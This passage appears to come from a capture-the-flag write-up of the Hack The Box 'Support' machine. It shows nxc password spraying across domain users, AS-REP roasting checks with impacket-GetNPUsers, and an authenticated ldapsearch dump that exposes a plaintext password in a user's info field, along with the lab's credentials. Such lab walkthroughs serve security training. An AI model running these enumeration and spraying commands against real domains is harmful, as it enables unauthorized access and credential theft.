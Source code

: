 ```
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
<...SNIP...>
SMB         10.10.11.174    445    DC               1119: SUPPORT\stoll.rachelle (SidTypeUser)
SMB         10.10.11.174    445    DC               1120: SUPPORT\ford.victoria (SidTypeUser)

nxc smb 10.10.11.174 -u users.txt -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --continue-on-success
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) 
<....SNIP.....>
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
<....SNIP...>
SMB         10.10.11.174    445    DC               [-] support.htb\stoll.rachelle:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\ford.victoria:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE
```
Also I knew that non of the users has pre-authentication set with the `impacket-GetNPUsers`
```
impacket-GetNPUsers -no-pass support.htb/ -usersfile files/users.txt -dc-ip 10.10.11.174                         
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
<....SNIP...>
[-] User stoll.rachelle doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ford.victoria doesn't have UF_DONT_REQUIRE_PREAUTH set
```
## Lateral Movement
### Auth As Support
Using `ldapsearch` I dump `ldap` information in the domain and store it in a file
```bash
ldapsearch -x -H ldap://10.10.11.174 -D 'ldap@support' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "(objectClass=user)"  > ldap_dump
```
Looking at the file I get a potential password in the `info` description of the support user
```
cat ldap_dump
<..SNIP..>
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20250804040942.0Z
uSNCreated: 12617
'info: Ironside47pleasure40Watchful'
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 86086
company: support
```